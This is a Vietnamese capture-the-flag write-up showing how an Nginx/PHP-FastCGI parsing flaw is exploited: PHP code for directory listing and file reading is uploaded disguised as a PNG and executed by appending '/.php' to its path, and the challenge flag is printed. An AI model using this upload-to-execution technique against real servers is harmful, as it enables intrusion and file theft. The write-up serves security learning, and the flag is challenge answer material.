 # VulnNginx

- Bài này chúng ta sẽ khai thác vào lỗ hổng parsing khi upload file của Nginx. Do cấu hình sau của `nginx.conf`, Nginx sẽ chuyển các tệp có đuôi là `.php` cho `FastCGI` để xử lý. Đối với bất kỳ tên tệp nào, hãy thêm /xxx.php (xxx) làm ký tự tùy ý, sau đó tệp có thể được phân tích cú pháp thành php.

Khi nhận đề bài, việc đầu tiên chúng ta cần tiến hành đó là kiểm tra source code. Tại file `upload.php` chỉ cho phép chúng ta upload hình ảnh dưới 1kb và chỉ hỗ trợ các định dạng: `gif`, `png`, `jpg`, `jpeg`.

![File upload.php](/Images/upload.png)


## Quét tập tin

* Tạo file `scan.php` để tiến hành dò tên file Flag, sau đó chuyển định dạng thành `.png` với nội dung code:
```php
<?php
  // Specifying directory
  $mydir = '../../../../';
 
  // Scanning files in a given directory in unsorted order
  $myfiles = scandir($mydir, SCANDIR_SORT_NONE);
 
  // Displaying the files in the directory
  print_r($myfiles);
?>
```
> Dựa vào file `start.sh` trong source code ta có thể biết được vị trí thư mục của file Flag cũng như định dạng của file Flag sẽ là `flag_${RND}.txt` với `${RND}` là một chuỗi random MD5.

![File start.sh](/Images/start.png)

* Upload file `scan.png` vừa tạo lên server ta được 1 file mới với đường dẫn là `/var/www/html/uploadfiles/84bd22bd3c80955d764fd0a4a95e1ce0.png`.

![Upload scan.png](/Images/scan.png)

Để thực thi file ta thêm hậu tố `/.php` để Nginx nhận diện đây là file php và thực thi nó.

![Scan directory](/Images/scandir.png)

## Đọc Flag

Cuối cùng sẽ là đọc nội dung file `flag_68b329da9893e34.txt`

Tương tự với cách quét thư mục, ta tạo file `readflag.png` với đoạn code:
```php
<?php
  $myfile = fopen("../../../../flag_68b329da9893e34.txt", "r") or die("Unable to open file!");
  echo fread($myfile,filesize("../../../../flag_68b329da9893e34.txt"));
  fclose($myfile);
?>
```
Upload file lên và nhận kết quả.

![Read Flag](/Images/flag.png)

```bash
W1{Nginx_parsing_is_not_safe,right?}
```

### Nguồn tham khảo
- https://www.programmersought.net/article/389137801.html
- https://www.geeksforgeeks.org/php-scandir-function/
- https://www.w3schools.com/php/php_file_open.asp
